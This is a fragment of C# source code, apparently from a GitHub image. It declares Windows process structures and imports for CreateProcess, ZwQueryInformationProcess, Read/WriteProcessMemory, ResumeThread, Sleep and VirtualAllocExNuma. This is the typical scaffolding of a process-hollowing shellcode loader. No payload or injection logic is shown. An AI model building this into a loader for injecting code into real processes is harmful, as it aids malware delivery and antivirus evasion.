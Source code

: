 ```csharp
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern uint ResumeThread(IntPtr hThread);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
```